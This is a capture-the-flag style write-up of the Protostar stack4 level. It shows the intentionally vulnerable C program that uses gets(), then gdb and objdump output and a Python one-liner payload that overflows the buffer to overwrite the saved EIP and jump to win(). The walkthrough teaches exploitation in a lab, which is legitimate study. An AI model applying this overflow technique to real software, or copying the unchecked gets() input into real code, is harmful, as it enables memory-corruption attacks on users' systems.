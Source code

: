 ## stack4
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
This level is at /opt/protostar/bin/stack4
Hints
* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

```
user@protostar:/opt/protostar/bin$ objdump -d stack4 | grep win
080483f4 <win>:

(gdb) i f
Stack level 0, frame at 0xbffffd80:
 eip = 0x804841d in main (stack4/stack4.c:16); saved eip 0xb7eadc76
 source language c.
 Arglist at 0xbffffd78, args: argc=1, argv=0xbffffe24
 Locals at 0xbffffd78, Previous frame's sp is 0xbffffd80
 Saved registers:
  ebp at 0xbffffd78, eip at 0xbffffd7c
(gdb) x/32x $esp
0xbffffd20:     0xbffffd30      0xb7ec6165      0xbffffd38      0xb7eada75
0xbffffd30:     0x41414141      0x42424242      0xbffffd00      0x080482e8
0xbffffd40:     0xb7ff1040      0x080495ec      0xbffffd78      0x08048449
0xbffffd50:     0xb7fd8304      0xb7fd7ff4      0x08048430      0xbffffd78
0xbffffd60:     0xb7ec6365      0xb7ff1040      0x0804843b      0xb7fd7ff4
0xbffffd70:     0x08048430      0x00000000      0xbffffdf8      0xb7eadc76
0xbffffd80:     0x00000001      0xbffffe24      0xbffffe2c      0xb7fe1848
0xbffffd90:     0xbffffde0      0xffffffff      0xb7ffeff4      0x0804824b

user@protostar:/opt/protostar/bin$ python -c 'print("A"*19*4+"\xf4\x83\x04\x08")' | ./stack4
code flow successfully changed
Segmentation fault
```
